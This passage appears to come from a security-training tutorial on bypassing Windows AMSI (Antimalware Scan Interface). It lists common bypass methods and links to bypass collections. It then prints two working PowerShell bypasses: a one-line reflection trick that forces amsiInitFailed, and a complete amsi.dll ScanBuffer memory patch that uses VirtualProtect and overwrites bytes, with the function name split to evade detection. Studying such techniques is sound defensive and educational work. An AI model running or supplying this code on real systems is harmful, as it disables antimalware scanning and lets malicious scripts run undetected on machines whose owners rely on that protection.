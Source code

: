 There are a large number of bypasses for AMSI available, a majority  written in PowerShell and C#. Find a list of common bypasses below.

- Patching amsi.dll
- Amsi ScanBuffer patch
- Forcing errors
- Matt Graeber's Reflection, https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/
- PowerShell downgrade

For more information about the variety of bypasses available, check out this GitHub repo, https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell

We will be looking at the Matt Graeber reflection method as well as patching amsi.dll.

The first bypass we will be looking at utilizes native PowerShell reflection to set the response value of AMSI to `$null`. Find the PowerShell code written by Matt Graeber below.

```
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

The second method we will be looking at is patching amsi.dll written in  PowerShell. This bypass is modified by BC-Security inspired by Tal  Liberman, https://github.com/BC-SECURITY/Empire/blob/master/lib/common/bypasses.py. RastaMouse also has a similar bypass written in C# that uses the same technique, https://github.com/rasta-mouse/AmsiScanBufferBypass/blob/main/AmsiBypass.cs.The bypass will identify DLL locations and modify memory permissions to return undetected AMSI response values.

```
$MethodDefinition = "

    [DllImport(`"kernel32`")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport(`"kernel32`")]
    public static extern IntPtr GetModuleHandle(string lpModuleName);

    [DllImport(`"kernel32`")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
";

$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kernel32' -NameSpace 'Win32' -PassThru;
$ABSD = 'AmsiS'+'canBuffer';
$handle = [Win32.Kernel32]::GetModuleHandle('amsi.dll');
[IntPtr]$BufferAddress = [Win32.Kernel32]::GetProcAddress($handle, $ABSD);
[UInt32]$Size = 0x5;
[UInt32]$ProtectFlag = 0x40;
[UInt32]$OldProtectFlag = 0;
[Win32.Kernel32]::VirtualProtect($BufferAddress, $Size, $ProtectFlag, [Ref]$OldProtectFlag);
$buf = [Byte[]]([UInt32]0xB8,[UInt32]0x57, [UInt32]0x00, [Uint32]0x07, [Uint32]0x80, [Uint32]0xC3); 

[system.runtime.interopservices.marshal]::copy($buf, 0, $BufferAddress, 6);
```
